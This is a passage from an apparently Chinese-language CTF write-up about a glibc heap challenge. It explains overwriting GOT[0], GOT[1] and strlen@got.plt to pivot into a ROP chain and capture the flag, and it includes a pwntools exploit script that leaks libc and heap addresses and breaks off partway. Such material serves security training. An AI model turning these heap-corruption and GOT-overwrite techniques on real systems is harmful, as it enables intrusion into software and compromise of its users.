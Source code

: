 ```Python
pop_rsp_13_14_15_rbp = libc_base + 0x2a73f
PLT_GOT_0 = libc_base + 0x28000
cmd(6)
p.sendafter(b'Input your target addr \n',p64(GOT_1))
p.send(p64(pop_rsp_13_14_15_rbp) + p64(PLT_GOT_0))
```

但是**仅仅只是修改了`GOT[1]和strlen@got.plt`还是不够的**，我们会发现**GOT\[0\]内写入的是我们的p2**，小堆块，而**小堆块里没有任何内容**，我们ret的时候就会发生错误。因为我们唯一一次的edit机会已经使用过了，所以我们只能把p2给申请出来，这样在`unlink_chunk.constprop`的操作下，**GOT\[0\]内写入的就是我们的p1**了，有我们构造的ROP链

```Python
add(0x538)
```

完成的效果如图所示，可以看到`GOT[0],GOT[1],strlen@got.plt`均被修改完成

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-d858c3c91448d18dbea1fac13e2cf12fc0b96bba.png)

在触发了putenv函数后也是成功拿下了flag

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-7de79700aa39ea77f3c4720bf68a457d7a57ec65.png)

### exp

```Python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']

p = process('./heap')
libc = ELF('./libc.so.6')

def cmd(choice):
    p.sendlineafter(b'Enter your choice: \n', str(choice).encode())

def add(size):
    cmd(1)
    p.sendlineafter(b'Enter your commodity size \n', str(size).encode())

def delete(index):
    cmd(2)
    p.sendlineafter(b'Enter which to delete: \n', str(index).encode())

def edit(index, content):
    cmd(3)
    p.sendlineafter(b'Enter which to edit: \n', str(index).encode())
    p.sendlineafter(b'Input the content \n',content)

def show(index):
    cmd(4)
    p.sendlineafter(b'Enter which to show: \n', str(index).encode())
add(0x550) #p1大堆块
add(0x590)
add(0x540) #p2小堆块
delete(1)
add(0x590)
delete(3)
show(1)
libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x21a120
log.success('libc_base==>'+hex(libc_base))
p.recv(10) #舍弃10字节的垃圾数据
heap = u64(p.recv(6).ljust(8,b'\x00')) #p1的堆地址
log.success('heap==>'+hex(heap))
heap_base = heap - 0x1950
```